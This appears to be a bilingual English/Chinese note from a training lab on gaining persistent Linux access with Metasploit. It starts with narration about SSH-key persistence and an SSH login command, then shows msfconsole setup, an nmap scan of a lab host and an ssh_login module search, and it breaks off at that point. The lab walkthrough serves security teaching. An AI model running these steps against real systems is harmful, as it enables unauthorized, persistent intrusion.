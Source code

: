 And now, we have access via a typical terminal or a typical Linux command shell. And we can go through the process of upgrading this if we wanted to. But for continuous or for persistent access on the target system, this is a fantastic technique, because we're not creating a service, we're not creating a cron job, etc. 

"Why we need to input password when we try log in as user ftp via SSH? I think it's because the private key we specified belongs to root instead of ftp."

Try and log in to the user ftp here.

```
ssh -i ssh_key ftp@192.182.80.3
```

# Establishing Persistence On Linux（在 Linux 上建立持久性）
## Overview（概述）
Goal

This lab covers the process of establishing persistence on Linux with Metasploit.

目标

本实验涵盖使用 Metasploit 在 Linux 上建立持久性的过程。

## 复现视频内容
```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.58.78.2  netmask 255.255.255.0  broadcast 192.58.78.255
        ether 02:42:c0:3a:4e:02  txqueuelen 0  (Ethernet)
```

Target IP Address: 192.58.78.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > workspace -a Linux_persistence
[*] Added workspace: Linux_persistence
[*] Workspace: Linux_persistence
msf5 > setg RHOSTS 192.58.78.3
RHOSTS => 192.58.78.3
msf5 > db_nmap -sV 192.58.78.3
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-03-24 09:08 UTC
[*] Nmap: Nmap scan report for target-1 (192.58.78.3)
[*] Nmap: Host is up (0.000010s latency).
[*] Nmap: Not shown: 999 closed ports
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[*] Nmap: MAC Address: 02:42:C0:3A:4E:03 (Unknown)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
msf5 > services
Services
========

host         port  proto  name  state  info
----         ----  -----  ----  -----  ----
192.58.78.3  22    tcp    ssh   open   OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 Ubuntu Linux; protocol 2.0
msf5 > search ssh_login

Matching Modules
================
```